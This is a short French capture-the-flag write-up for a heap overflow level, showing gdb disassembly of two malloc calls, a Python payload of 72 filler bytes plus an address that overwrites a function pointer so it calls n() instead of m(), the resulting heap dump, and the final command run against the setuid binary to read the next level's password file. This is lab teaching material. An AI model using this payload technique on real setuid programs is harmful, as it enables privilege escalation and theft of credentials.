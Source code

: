La procédure ici la meme que pour le buffer overflow mais c'est dans la Heap que cela se passe.

En effet malloc est utilisé.

```gdb
0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
0x0804848c <+16>:	call   0x8048350 <malloc@plt>
0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
0x0804849c <+32>:	call   0x8048350 <malloc@plt>
0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
```

Il y a un pointeur de fonction qui s'appelle f() qui pointe sur une fonction m()

Ce que l'on doit faire ici est de modifier l'adresse vers laquelle pointe f() et la faire pointé sur la fonction n()

```gdb
(gdb) r $(python -c "print('B' * 72 + '\x54\x84\x04\x08')")

(gdb) x/36xw $eax
0x804a008:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a018:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a028:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x42424242	0x42424242	0x08048454	0x00000000
0x804a058:	0x00000000	0x00020fa9	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.
/bin/cat: /home/user/level7/.pass: Permission denied
[Inferior 1 (process 6259) exited normally]
```

Pour régler le probleme du setuid on doit lancé le programme sans gdb
```bash
./level6 $(python -c "print('B' * 72 + '\x54\x84\x04\x08')")
```
